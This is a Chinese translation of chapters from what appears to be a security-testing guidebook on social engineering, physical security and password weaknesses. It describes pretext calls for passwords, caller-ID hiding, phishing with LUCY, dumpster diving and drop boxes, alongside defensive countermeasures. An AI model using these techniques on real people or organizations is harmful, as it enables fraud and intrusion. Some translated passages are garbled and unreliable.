在社会工程师实施攻击之前，他们需要一个目标。这个目标是这些攻击者进行社会工程流程的第一步，而且可能已经植根在他们的脑海中。他们想要实现什么？社会工程师正试图破解什么？为什么要破解？他们想要知识产权还是服务器密码？他们渴望的是访问权限，还是仅仅想证明该公司的防御是可以被攻破的？作为一个执行社会工程的安全专业人员，在开始之前，务必确定总体目标。否则，你将漫无目的地游荡，并在过程中给他人带来不必要的头疼和风险。

## 寻找信息

当社会工程师心中有了目标时，他们通常会从收集有关受害者的公开信息开始攻击。许多社会工程师会随着时间的推移缓慢获取信息，以免引起怀疑。然而，明显的收集收集行为是一个泄露。在此，我将提到在本章其余部分中需要注意的其他警告。

无论最初的研究方法如何，犯罪分子可能渗透组织的所有内容只是员工列表、几个关键的内部电话、来自社交媒体网站的最新新闻或一个公司日历。第 5 章提供了有关信息收集的更多细节，但以下技术值得关注。

## 使用互联网

如今的基础研究方法是互联网。在 Google 或或其他搜索引擎上搜索几分钟，使用公司名称或特定员工姓名作为简单关键词，通常就能获得大量信息。你可以在证券交易委员会 (SEC) 网站 https://www.sec.gov 上的文件中，以及如 https://www.hovers.com 和 https://finance.yahoo.com 等网站上找到更多信息。许多组织——尤其是其管理层——可能长期没有发现网上可以获取的组织信息！鉴于此类信息如此多，启动社会工程攻击通常就足够了。

犯罪分子可以花费几美元对人员（包括高管）进行全面的在线背景调查。这些搜索可以在几分钟内查出一个人几乎所有的公开（有时是私人的）信息。

## 翻垃圾桶 (Dumpster diving)

翻垃圾桶的风险稍大——而且无疑混乱，但它是获取信息的一种非常有效的方法。这种方法涉及翻找垃圾桶以获取有关公司的信息。

翻垃圾桶甚至可以发现最机密的信息，因为有些人认为信息进入垃圾桶后就是安全的。大多数人没有考虑他们扔掉的纸张的潜在价值，我指的不是回收价值！文档通常包含丰富的信息，提示了社会工程师渗透组织所需的信息。敏锐的社会工程师会寻找以下硬质文档：

- 内部电话列表
- 组织结构图
- 员工手册（通常包含安全策略）
- 网络拓扑
- 密码列表
- 会议记录
- 表格和记录
- 客户记录
- 包含机密信息的电子邮件打印件

粉碎文档只有在纸张被切碎成极小的纸屑状时才有效。那些只能将文档切成长条的廉价碎纸机在面对坚定的社会工程师时是毫无用处的。只要有一点时间和胶带，聪明的黑客如果下定决心，就可以把文档重新拼接在一起。

黑客经常通过窃听餐厅、咖啡馆和机场的对话从他人那里收集机密的个人和业务信息。在手机通话时大声说话的人也是社会工程师敏感信息的绝佳来源（也许是因果报应？）机场是进行肩膀窥视和收集敏感信息的好地方。当我身处公共场所和飞机上时，我听到和看到惊人的信息。我几乎无法避免！

坏人还会在垃圾里寻找 USB 驱动器、DVD 和其他媒体。参阅第 7 章了解更多关于垃圾和其他物理安全问题的内容，包括防止翻垃圾桶者的防御措施。

## 电话系统

攻击者可以使用大多数语音信箱系统中内置的按名称拨号功能获取信息。要访问此功能，你通常在拨打公司总机或进入某人的语音信箱后按 0 或 #。这种技巧在下班后效果最好，可以确保没人接听。

社会工程师有时可以通过收听语音留言找到有趣的信息，例如当受害者不在本地时。他们甚至可以通过收听受害者的语音留言、播客和网络直播来研究受害者的声音，以便学习如何伪装。

如果攻击者能够隐藏拨号来源，他们就可以保护自己的身份。以下是他们隐藏身份的一些方法：

- **住宅电话** 如果用户在拨打号码前拨打*67，有时会从主叫显示中隐藏号码。然而，此功能在拨打免费电话（800, 888, 876）或 911 时无效，但在一次性手机和越网 IP  (VoIP) 服务上效果良好。
- 办公室内使用电话交换机的**办公电话**要难伪造得多，但攻击者通常只需要电话交换机软件的用户指南和管理员密码。在许多交换机中，攻击者可以输入源号码——包括一个伪造的号码，例如受害者的家庭电话。

- **VoIP 服务器** 如开源的 Asterisk (https://www.asterisk.org) 可以配置为发送任何号码。

## 网络钓鱼邮件

最新且最成功的黑客手段是通过电子邮件钓鱼实施的，其中犯罪分子向受害者发送电子邮件，试图诱他们泄露敏感信息或点击恶意链接。钓鱼已经存在多年了，但由于最近出现了一些高知名度的利用漏洞，它最近引起了关注。


# 图 6-1：
使用 LUCY 启动电子邮件钓鱼攻击。



# 图 6-2：
LUCY 中的示例钓鱼模板选项。



## 第 6 章 社会工程 79

## 社会工程防范措施

针对社会工程，你仅有几道防线。社会工程对你的分层防御构成了真正的考验。即使有强大的安全控制，天真或未经过培训的用户也可能让社会工程师进入网络。永远不要低估社会工程师的力量 —— 也不要低估用户在帮助他们达成目的时的轻信。

在以下领域的特定政策有助于长期防范社会工程：

- 对信息进行分类，使用户无法访问其不需要的某些级别的信息
- 在雇用员工或承包商时设置用户 ID
- 建立员工书面同意的可接受计算机使用规范
- 移除不再为组织工作的员工、承包商和顾问的用户 ID
- 设置和重置强密码短语
- 快速响应安全事件，例如可疑行为和已知的恶意病毒感染
- 正善处理专有和机密信息
- 在建筑内护同访客

这些政策必须是可执行的，并对组织内的所有人执行。保持其更新，告知用户，并（最重要的是）对其进行测试。

## 用户意识与培训

防范社会工程的最佳防线之一是培训员工识别并应对社会工程攻击。用户意识始于对每个人的初始培训，随后通过安全意识倡议，使安全防御措施在每个人脑海中保持新鲜。将培训和意识与特定的安全策略对齐。你可能还希望制定一项专门的安全培训和意识政策。

考虑将安全培训外包给经验丰富的安全培训。如果培训来自外部人员，员工通常会对待得认真，就像家人或配偶可能会忽略你说的话，但如果换别人说同样的话，他们就会记在心上。仅仅凭这一点，外包安全培训就值得投资。

当你在组织内开展持续培训和意识活动时，以下技巧可以帮助长期对抗社会工程：

- 将安全意识和培训视为业务投资。
- 持续对用户进行培训，以保持他们的安全防感。
- 将信息隐私和安全任务及职责包含在每个人的职位描述中。
- 尽可能根据你的受众定制内容。
- 为你的业务职能和用户角色创建社会工程意识计划。
- 尽可能让你的信息保持非技术化。
- 开发预防和报告事件的激励计划。
- 以身作则。

与你的用户分享以下技巧以帮助防止社会工程攻击：

- 除非你确认请求信息的人确实需要这些信息且如其所称，否则永远不要泄露任何信息。如果是电话提出的请求，请核实拨打者的身份并回拨。
- 永远不要点击所谓的加载需要更新页面的电子邮件链接。这种警告对于未经请求的邮件尤为真实，这些邮件在移动设备上可能特别棘手，因为用户无法看到链接将他们带到何处。
- 如果你不确定链接的安全性或合法性，鼓励你的用户使用 bitly、ow.ly 等提供的短 URL。如 www.checkurl.com 和 http://wheredoesthislink.com 等网站提供此类服务。
- 在 Facebook 或 LinkedIn 等社交网络网站上分享个人信息时要小心。还要警惕声称认识你或想成为你朋友的人。他们的意图可能是恶意的。
- 在建筑内护同所有访客。这可能不符合公司的文化或不切实际，但它确实有助于将社会工程风险降最低。
- 永远不要打开来自陌生人的邮件附件或其他文件，如果它们来自你认识的人，也要非常小心。单此一项措施就能防止无数的安全事件和泄露。
- 永远不要泄露密码或其他敏感信息。除非有其他强有力的业务理由，否则即使是你同事也不需要知道。

其他通用建议也可以防范社会工程攻击：

- 永远不要让陌生人连接到你的网络插或无线网络，即使只有几秒钟。心怀不轨的人可以放置网络分析仪或安装恶意软件，或者设置一个离开后可以远程访问的后门。
- 对你的资产进行分类，包括纸质和电子。培训所有员工处理每种资产。
- 开发并执行介质销毁政策。这些政策（针对计算机介质和文档）有助于确保数据被仔细处理并留在它们应该在的地方。销毁政策的良好信息来源是 www.pdaconsulting.com/datadp.htm。
- 使用断孔碎纸机。更好，聘请一家专门销毁机密文档的碎纸公司。

以下技术强化了正式培训的内容：

- 新员工入职培训、培训午餐、电子邮件和时报。
- 包含技巧和常见问题的社会工程生存手册。
- 将小物品和杂物作为屏幕保护程序、鼠标垫、便利签、笔和办公室海报，上面印有有助于强化安全原则的信息。

附录列出了我最喜欢的培训小物品和工具供应商，以提高你组织的安全意识和教育水平。

## 82 第二部分 让安全测试运行起来

## 本章主要内容

- >> 理解物理安全的重要性
- >> 寻找物理漏洞
- >> 实施物理安全的防范措施

## 第 7 章 物理安全

物理安全是对物理财产的保护，涵盖了技术和非技术组件，这两者都必须解决。物理安全是一个经常被忽视但至关重要的安全方面。保护信息的能力取决于对办公室、建筑或校园进行物理安全的能力。在本章中，我涵盖了与计算机相关的常见物理安全弱点，并概述了你可以实施以减少业务物理漏洞的免费和低成本防范措施。

我不建议闯入，尽管这对于充分测试物理漏洞是必要的。我不想看到你中枪或坐牢！相反，请接触这些区域，看看你能走多远。从外人的视角重新审视本章涵盖的物理漏洞。你可能会发现之前忽略的安全漏洞。

## 识别基础物理漏洞

无论你的安全技术如何，如果攻击者进入了建筑或数据中心，几乎任何泄露都是可能的。这就是为什么寻找物理漏洞并在它们被利用之前修复它们如此重要。

在小型公司，某些物理安全问题可能不是问题。许多物理漏洞取决于以下因素：

- 建筑尺寸
- 建筑数量或办公地点
- 员工人数
- 是否有前台或安保人员
- 建筑出入口的位置和数量
- 服务器房、布线间和数据中心的位置

存在数千种可能的物理漏洞。坏人总在寻找它们，所以你应该首先寻找这些。以下是我为客户进行安全评估时发现的一些物理安全漏洞示例：

- 没有前台或安保人员监控人员进出。
- 建筑访问没有签到或护同（或执行）。
- 员工允许熟悉的访客进入，因为他们穿着制服或声称在大内维修复印机或计算机。
- 没有访问控制，或使用可以复制且无法追责的传统钥匙。
- 门敞着。
- 基于 IP 的视频、访问控制和数据中心管理系统可以通过网络使用默认用户 ID 和密码访问。
- 公共区域的计算机房。
- 未安全的备份介质，如磁带、硬盘和 CD/DVD（还记得那些东西吗？）。
- 敏感信息以纸质形式散落在办公位上，而不是存储在带锁的文件柜中。


+   >> 未受保护的计算机硬件，特别是路由器、交换机和未加密的笔记本电脑。
+   >> 敏感信息被直接扔在垃圾桶里，而不是粉碎或放入粉碎机容器中。

当这些物理漏洞被发现时，就会发生糟糕的事情。只需要一个具有恶意意图的授权个人就可以利用这些弱点。

## 定位你办公室的物理漏洞

许多潜在的物理安全攻击似乎不太可能发生，但它们可能会发生在不关注风险的组织身上。坏人可以利用许多漏洞，包括建筑基础设施、办公室布局、机房访问和设计中的弱点。除了这些因素外，还要考虑设施与当地应急援助（警察、消防队、救护车）的距离，以及该地区的犯罪统计（盗窃、抢劫等），以便你能更好地了解自己所面临的挑战。

在评估组织的物理安全时，请寻找以下章节中讨论的漏洞。这项研究不需要过多的技术知识或昂贵的设备。根据办公室或设施的大小，这些测试也不应该花费太多时间。核心在于根据所涉及的利益，确定物理安全控制措施是否充分。最重要的是，要务实，并运用常识。

## 建筑基础设施

门、窗户和墙是建筑的关键组件——特别是在存储机密数据的中心或其他区域。

## 攻击点

犯罪分子可以利用基础设施漏洞。针对一些经常被忽视的攻击点，问自己以下问题：

+   >> 门是否被顶着打开？如果是，原因是什么？
+   >> 关键门的底部是否有间隙？（间隙可能允许有人使用气球或其他设备触发本应是安全的房间内部的传感器。）

门容易打开吗？（在门把手附近踢一脚通常就足够打开标准门了。）

建筑或数据中心是由什么制成的（钢钢、木材、混凝土），墙壁和入口有多坚固？确定材料对地震、龙卷风、强风、暴雨以及车辆撞入建筑的韧性。还要确定这些灾害是否会导致建筑处于暴露状态，从而让掠夺者和其他具有恶意意图的人进入机房或其他关键区域。

是否有任何门或窗户是由玻璃制成的，这种玻璃是透明的、防碎的还是防弹的？

外外铰链是否让入侵者容易解锁它们？

门、窗户和其他入口是否连接到报警系统？

建筑是否有带有可以推开的瓷板的吊顶？

建筑是否有板对板墙（slab-to-slab walls）？（如果没有，人可以轻松爬上墙壁，绕过任何门窗访问控制。）

## 应对措施

许多针对建筑漏洞的物理安全应对措施需要其他维护、施工或运营专家的参与。如果基础设施不是你的专长，你可以在设计、评估和改造阶段聘请外部专家，以确保你有充分的控制措施。以下是巩建筑安全的一些最佳方法：

+   坚固的门和锁。
+   运动检测器。
+   用于威慑犯罪活动、实时捕获犯罪犯或事后提供事实证据的摄像头。
+   数据中心周围无窗的墙壁。
+   标明物品位置和谁允许进入的指示牌。
+   持续监控的报警系统，并在所有访问区域配备基于网络的摄像头。
+   照明（尤其是出入口周围）。
+   一次仅允许一人通过的入口。
+   围栏（必要时带有铁丝网或刀片网）。

## 公用设施

在评估物理安全时，你必须考虑建筑和数据中心的公用设施，如电力、水、发电机和消防抑制。这些公用设施可以帮助你应对事故并在断电期间保持其他控制运行。不过，你必须小心，因为如果入侵者进入建筑，它们也可能被用来对付你。

## 攻击点

入侵者经常利用与设施相关的漏洞。针对一些经常被忽视的攻击点，问自己以下问题：

+   >> 是否配备了电源保护设备，如浪涌保护器、不间断电源 (UPS) 和发电机？还要确定这些设备的开启/关闭开关有多容易被访问——即入侵者是否可以走进去拨动开关，或者通过爬梯子切断简单的锁并访问关键设备。
+   >> 当断电时，物理安全机制是“故障开路”（允许任何人通过）还是“故障闭锁”（将所有人隔在外面，直到电力恢复）？我见过这两种情况，你需要了解在那种情况下会发生什么。
+   >> 火灾检测和灭火设备位于哪里，包括报警传感器、灭火器和喷淋系统——确定入侵者如何滥用它们。还要确定它们是否可以通过带有默认凭据的无线或本地网络或互联网访问？最后，确定这些设备是否放置在虚假报警期间可能会损坏电子设备的地方。
+   >> 运行在建筑外的本地电信线（铜线和光纤）在哪里？如果它们在地面上，有人可以使用电信工具对其进行监听。如果它们被埋在地下，在该区域挖掘可能会很容易切断它们。如果它们在电线杆上，可能会受到交通事故或天气事件的影响。

## 应对措施

你可能需要在设计、评估或改造阶段引入外部专家。关键在于布局。务必考虑以下因素：

+   >> 确保主要的设施控制装置位于关闭且可锁的门后或围栏区域内，避开经过或附近人员的视线。
+   >> 确保你有大量覆盖范围足够的摄像头。
+   >> 确保任何可以通过网络访问的设备都已使用漏洞扫描器以及书中概述的其他技术进行测试。如果设备不需要通过网络或互联网访问，请通过防火墙规则或访问控制禁用该功能。
+   >> 确保路过或靠近建筑的人无法访问其开关控制装置。


开关的安全盖以及用于 USB 端口和 PCI 扩展插的锁可以是有效的防御措施。然而，不要完全依赖它们，因为它们很容易打开。


## 办公室布局和使用

办公室的设计和使用可以帮助或损害物理安全。

## 攻击点

入侵者可以利用办公室周围的各种弱点。针对常见的攻击点，问自己以下问题：

+   >> 是否有接待员或保安人员监控进出建筑门的流量？
+   >> 员工桌子上是否留有敏感信息？确定邮件和包裹是否在某人的门外——或者糟糕的是，在建筑外等待取件？
+   >> 垃圾桶和箱、回收桶以及粉碎机位于哪里，它们是否容易访问？开放的回收桶和其他对垃圾的不当处理会引发所谓的“翻找”。具有恶意意图的人经常在垃圾中寻找公司敏感信息和客户记录，而且通常会成功。易访问的垃圾会产生许多安全风险。


邮件室和复印室有多安全？如果入侵者可以进入这些房间，他们就可以窃取邮件或公司信头纸来对付你。他们还可以使用和滥用你的传真机（假设你还在用的话！）。

>> 是否使用了实时监控的监控闭路电视或基于 IP 的网络摄像头？如果你的设置是主动的且更按需的，你必须确信在需要时能够快速访问视频和相关日志。

>> 你的网络摄像头和数字视频录制仪是否经过了攻击加固，或者至少更改了默认登录凭据？这种安全漏洞在几乎所有类型的网络、公用事业公司、医院、制造公司以及所有其他类型的业务中几乎是 100% 肯。

>> 门上有哪些访问控制措施：普通钥匙、卡钥匙、组合锁还是生物识别？确定谁可以接触钥匙以及钥匙储在哪里。钥匙和编程键盘组合通常是共享的，这使得很难确定责任。查一下有多少人共享这些组合和钥匙。

我曾有一个无人监控的大堂，并提供供任何人使用的越网 IP 电话（VoIP）。由于客户没有考虑到任何人都可以进入大堂，断开 VoIP 电话（或电话的数据端口），将笔记本电脑接入网络，从而在极难被发现或质问的情况下获得对网络的完全访问权限。这种情况很容易预防：如果使用了分离的数据和语音端口，或者如果通过交换机或物理网络层分离了语音和数据流量，请禁用无人监控区域的网络连接。

## 应对措施

物理安全具有挑战性，因为安全控制通常是反应性的。某些控制是预防性的（即它们会威慑或无限期延迟），但它们并非万无一失。实施简单的措施可以减少你对建筑和办公室相关漏洞的暴露：

>> 监控人员出出的接待员或安保人员是最简单的应对措施。此人可以确保每位访客都登记，并且所有新或不受信任的访客始终有人陪同。制定政策和程序，要求所有员工询问陌生人并报告建筑内的异常。

“仅限员工或授权人员”标志告诉坏人应该去别的地方，而不是阻止他们进入。不引起关键区域的可能是更好的方法。


第 7 章 物理安全 89

- >> 数据中心应有单一出入口点。

- >> 在安全区域放置垃圾桶。

- >> 使用摄像头监控关键区域，包括垃圾桶。（摄像头如何塑造潜在犯罪犯的行为是令人惊叹的。）

- >> 使用横断式碎纸机或回收桶处理纸质文件。

- >> 限制分发的钥匙数量和共享的密码组合数量，并确保访问也经过记录和监控。

尽可能为每个人设置唯一的钥匙和密码，或者（更好的做法是）完全不使用它们。相反，使用可以被更好控制和监控的电子胸卡。

- >> 使用生物识别系统。它们可能有效，但也很昂贵且难以管理。

## 网络组件和计算机

入侵者进入建筑后，他们可能会寻找服务器房和其他易于访问的计算机和网络设备。

## 攻击点

王国的钥匙往往就在人的桌面电脑那么近，距离未安全的计算机房或布线间也不也不多远。

入侵者可以执行以下操作：

- >> 获取网络访问并以登录用户的身份发送恶意邮件。

- >> 通过工具如 ophrack LiveCD (http://ophrack.source.forge.net) 启动计算机直接从计算机破解并获取密码。我在第 8 章介绍了这种及更多密码破解方法。

- >> 将像 Pwnie Express (https://www.pxpress.com) 制造的渗透盒放在标准电源插座中。这些设备允许入侵者通过蜂窝连接到系统并执行坏事。这种方法是一种非常狡猾（sneaky）的入侵手段，你可以将其作为安全测试的一部分。

- >> 通过将文件复制到移动存储设备（如手机或 USB 闪器）或将其发送到外部地址从计算机中窃取文件。


- >> 进入未锁的计算机房并干扰服务器、防火墙和路由器。

- >> 带着网络图、联系人列表和灾恢复计划离开。

- >> 从模拟线路获取电话号码，从 T1、Metro Ethernet 和其他电信设备获取电路 ID，以供后续攻击使用。

几乎每一个经过网络的未加密信息都会通过以下方法之一被记录，以备将来分析：

- >> 将运行网络分析仪的计算机（包括 Cain and Abel 等工具，我在第 9 章介绍过）连接到你的网络交换机上

- >> 在现有计算机上安装网络分析软件


将来将如何访问或使用这些信息？最简单的攻击方法是在计算机上安装远程管理软件，如 VNC (https://www.realvnc.com)。此外，拥有足够时间的狡猾黑客如果计算机在防火墙之外，可以将公网 IP 地址绑定到计算机。拥有足够网络知识的黑客或恶意内部人员……针对常见的物理漏洞问自己以下问题：

- >> 在正常时间内多容易访问计算机？

- >> 带有加密硬盘和在闲置一段时间后锁定屏幕的笔记本电脑？

- >> 员工在旅行、在家或咖啡馆工作时是否离开不安全的手机和平板？

- >> 密码是否写在键盘或桌子的便利贴上？（这是一个老笑话了，但确实在发生。）

- >> 办公室里散落的备份介质是否容易被盗？

- >> 是否使用了保险箱来保护介质，谁可以访问它们？

第 7 章 物理安全 91

保险箱通常面临巨大风险，因为其尺寸和价值，且通常不受组织的常规控制保护。考虑创建策略和技术来保护它们。

保险箱应专门针对介质评级，以防止其在火灾中融化；例如 FireKing 箱箱 (https://www.fireking.com/products/safes/data-safes)

- >> 要求用户将系统锁定在桌子上——对于远程工作者和旅行者尤为重要。开机密码呢？

- >> 人多容易连接到无线接入点信号或接入点本身以加入网络？非法接入点也是需要考虑的。我在第 10 章详细介绍了无线网络。

- >> 防火墙、路由器、交换机和集线器（基本上任何带有网网或控制台连接的设备）是否容易访问，导致攻击者接入网络？

- >> 所有电缆是否通过布线间的配线架进行跳线（对于在本章前面提到的那个无人监控的大堂区域）？

这种设置很常见但是个坏主意，因为它允许任何人在任何地方接入网络获取权限，以及传播恶意软件。

## 应对措施

网络和计算机应对措施实施简单但执行困难，因为它们涉及人们的日常行为。以下是这些应对措施的概述：

- >> 让你的用户了解要注意什么，这样你就有额外的眼睛和耳朵帮助你。

- >> 要求用户在离开计算机时锁定屏幕——只需几次点击或击键。更好的方法是在 Active Directory 或本地策略中设置组策略对象（GPO）来强制超时。


- 要求笔记本电脑使用全磁盘加密技术。一个示例是 Windows 中的 BitLocker，理想情况下与名为 Microsoft BitLocker Administration and Monitoring 的中央管理软件相结合，你可以在此处找到它：https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/mbam-v25/。另一个选项是 WinMagSecureDoc 全磁盘加密（https://www.winmag.com/products/full-disk-encryption-for-windows）。macOS 内置的 FileVault 是针对日益增长的计算机群的良好选择。考虑移动介质的加密也很重要，因为敏感信息不可避免地会存储在那里。

- 保持机房和配线柜锁闭，并监控这些区域的任何不当行为。

- 保持组织内部硬件和软件的最新清单，以便确定额外设备何时出现或丢失 —— 这在计算机房尤为重要。

- 用更现代的访问控制系统替换传统的门锁和钥匙。

- 在存储和运输期间妥善保护计算机媒体。

- 扫描非法无线接入点并将其关闭。

- 使用电缆陷阱和锁，防止入侵者从配线架或计算机上拔掉网络电缆并将这些连接用于他们自己的计算机。

- 在磁介质上使用消磁器并在丢弃前将其粉碎。

## 第 7 章 物理安全 93

## 第 8 章

## 密码

密码破解是攻击者获取未经授权的网络、计算机或应用程序访问的最简单、最常见的方法之一。你在头条新闻中经常听到它，经过研究（例如《Verizon 数据泄露调查报告》），再次证实了弱密码密码是许多安全问题的根源。我很难接受我仍在谈论（以及企业正遭受于）密码这一事实，但这就是现实。作为一名信息安全测试专业人员，你完全可以尽自己的努力将风险降至最低。

除了强密码——理想情况下是更长、更强的密码短，它们很难被破解（或猜测）——易于创建和维护之外，网络管理员和用户往往忽视了密码管理的这一方面。因此，密码是信息安全链中最弱的环节。密码依赖于保密性。一旦密码泄露，原始所有者并不是唯一可以使用它访问系统的人。那时，问责制就失效了，坏事就开始了。

外部攻击者和恶意内部人员有许多方法获取密码。他们只需索要密码，或在用户输入密码时从其身后窥视（肩拍攻击）即可获取密码。黑客还可以通过密码破解软件从本地计算机中获取密码。要从网络中获取密码，攻击者可以使用远程破解工具、键盘记录器或网络分析器。

第 8 章 密码 95

本章演示了坏人如何而易地从你的网络和计算机系统中收集密码信息。我概述了常见的密码漏洞，并描述了有助于防止这些漏洞在你的系统上被利用的防御措施。如果你执行了测试并实施了本章概述的防御措施，你将走上通往系统密码安全的道路。

## 理解密码漏洞

当你平衡安全成本与受保护信息的价值时，用户 ID 和密钥密码的组合通常是足够的。然而，密码营造了虚假的安全感，正如坏人所预知的那样，他们试图破解密码作为入侵计算机系统的一步。

仅依赖密码进行安全的一个大问题是，多个个人可能知道密码。有时，多个人知道一个密码是有意意的；但通常并非如此。难点在于，除了密码所有者之外，没有办法知道还有谁知道。

知道密码并不意味着某人是授权用户。


以下是密码漏洞的两种类型：

- 组织或用户漏洞：包括组织内部缺乏强制执行密码策略，以及用户缺乏安全意识。
- 技术漏洞：包括薄弱的加密方法和计算机系统上不安全的密码存储。

我将在接下来的章节中详细详细探讨这些分类。

在计算机网络和互联网出现之前，用户的物理环境是密码安全的额外保护层，而且效果非常好。现在大多数计算机都连接了网络，那种保护已经消失了。第 7 章详细介绍了在网络化计算机和移动设备时代管理物理安全。

## 组织性密码漏洞

人性追求便利，尤其是要记住工作和日常生活中的五个、十个或几十个密码。这种对便利的渴望使得密码成为攻击者最易攻破的障碍之一。使用 26 个字母和数字 0-9，可以产生 3 万亿（是的，trillion 后面有 12 个 0）种 8 位密码组合。强密码易于记忆且难以破解。然而，大多数人只关注易于记忆的部分。用户喜欢使用像 password、他们的登录名、abc123 或完全不使用密码之类的密码！别笑；我见过这些显而易见的弱点，并保证此时任何网络中都有这些问题。

除非用户接受教育并被提醒使用强密码，否则他们的密码通常是：

- **易于猜测：** 像 "password" 或 "letmein" 这样的密码比人们想象的要常见。
- **很少更改：** 许多人被要求定期随时间推移不断更改密码。
- **多个安全点重用：** 当坏人破解一个密码时，他们经常用该密码访问其他系统。


在多个系统使用同一个密码无异于自找灭灭。每个人都有这种做法，但这并不意味着它是正确的。

- **写在纸上：** 密码越复杂越难以破解。然而，当用户创建复杂的密码时，他们更有可能将其写下来。外部攻击者和恶意内部人员可以找到这些密码并对你和你的企业。

## 技术性密码漏洞

在利用组织漏洞后，你可以发现这些严重的技术漏洞：

- 密码加密方案很弱。黑客可以利用本章概述的方法破解密码存储机制。许多供应商和开发者认为只要不发布加密算法的源代码就是安全的。错！

- 程序将密码存储在内存、不安全的文件和易于访问的数据库中。
- 未加密的数据库为任何拥有数据库的人直接提供敏感信息，无论他们是否有业务需求。
- 用户在输入密码时会在屏幕上显示密码。国家漏洞数据库（由美国标准与技术研究所管理的计算机漏洞索引）识别了超过 4000 个密码相关的漏洞！你可以通过 https://nvd.nist.gov/vuln/search 搜索这些问题，了解你的系统在密码方面可能存在的问题。

## 破解密码

密码破解是坏人最喜欢的破解手段之一，因为它激发了他们的探索欲和解决问题的欲望。你可能没有强烈的欲望探索每个人的密码，但以这种心态对待密码破解是有帮助的。

你应该从系统的哪个密码开始破解？通常，任何用户的密码都可以。一旦获得了一个密码，你通常可以获得其他密码 —— 包括管理员和 root 密码。

管理员密码是金矿。有了未经授权的管理员权限，你（一个犯罪黑客）可以在系统上做几乎任何事情。在寻找组织的密码漏洞时，我建议首先尝试通过最隐蔽的方法获取尽可能高级权限（例如域管理员）。这就是犯罪分子所做的。

你可以使用低技术和高技术手段利用漏洞来获取密码。你可以欺骗用户在电话中泄露密码；


观察用户在纸上写下的内容；通过我在后续章节中介绍的工具，直接从计算机、网络和互联网捕获密码。

# 用老办法方法破解密码

黑客可以使用低技术手段来破解密码。这些方法包括使用社会工程技术，如网络钓鱼、窥视视（shoulder surfing），以及根据其了解的关于用户的信息猜测密码。

## 社会工程

收集密码最流行的低技术方法是社会工程，我将在第 6 章中详细介绍。社会工程利用了人类易于信任的本性来获取信息，这些信息随后可以被恶意利用。一种常见的社会工程技术是诱导人们泄露密码。使用如 LUCY 等钓鱼平台编写一封精美的电子邮件就能让人们提供登录凭据。这听起来很荒谬，但我经常能看到这种现象。

## 技巧

要通过社会工程获取密码，直接向其索要即可。你可以给用户打电话，告诉他邮件队列中积压了几封看起来很重要的邮件，你需要他的密码登录并释放这些邮件。许多黑客和恶意的内部人员使用这种技术来尝试获取信息。

另一种让用户泄露密码的方法是发送一封请求此类信息的钓鱼邮件。我发现，让用户通过向钓鱼网站提交登录凭据来确认他们对内部安全策略合规性的理解，这就足够了。我将在第 6 章中介绍网络钓鱼。

如果你在测试期间给了他们你的密码，请确保这些密码已更改。一种简单的方法是通过 Windows 域强制所有用户更改密码。你不希望在密码泄露后出现任何问题时，由你来承担责任。

当员工的姓名、电话号码和电子邮件地址发布在你们公司的网站上时，这是一个便利社会工程的常见弱点。LinkedIn、Facebook 和 Twitter 等社交媒体网站可以被用来攻击公司，因为这些网站可以暴露员工的姓名和联系信息。


## 应对措施

用户意识和持续的安全培训是防御社会工程的极佳手段。如果安全工具能够在主机级、网络边界或云端监控此类电子邮件和网页浏览，它们就是很好的故障安全措施。训练用户识别攻击（如可疑的电话或欺骗性的钓鱼邮件）并做出有效应对。最佳反应是拒绝提供任何信息，并提醒组织内适当的信息安全经理。此外，从你们的网站上移除这些员工，或者至少移除 IT 员工的信息。

# 窥视视

*窥视视*（Shoulder surfing，从别人肩膀后面看他们在输入什么的行为）是一种有效的低技术密码破解手段。

## 技巧

要实施这种手段，坏人必须靠近受害者（或使用望远镜或类似的坐姿工具），且必须不显眼。他们只需要在用户登录时通过观察用户的键盘或屏幕来收集密码。眼睛好的攻击者甚至可以观察用户是否在办公桌周围环顾以寻找密码的提示或密码本身。安全摄像头或摄像头可用于此类攻击。咖啡馆和飞机为窥视视提供了理想的条件。

你可以尝试自己进行窥视视测试。在办公室里走动，进行随机抽查。去用户的办公桌前，要求他们登录计算机、网络甚至他们的电子邮件应用程序。不要事先告诉他们你在做什么，因为他们可能会试图隐藏他们输入的内容或寻找密码的地方——这恰恰是他们一直以来做的！只要对这项测试保持小心并尊重他人隐私即可。

## 应对措施

鼓励用户留意周围环境，并告诉他们当怀疑有人从肩膀后面窥视时，不要输入密码。指导用户，如果他们在登录时怀疑有人从肩膀后面窥视，他们应该礼貌地请对方移开目光，或者在必要时使用适当的措辞表示他们被冒犯了。最简单的方法可能是侧身离开窥视者的视线，以防止他看到任何输入内容和/或屏幕本身。3M 隐私防护屏（https://www.3m.com/3M/en_US/privacy-screen-protectors-us）效果良好，但令人惊讶的是，很少有人使用。

100 第 2 部分 让安全测试运转起来

## 推断

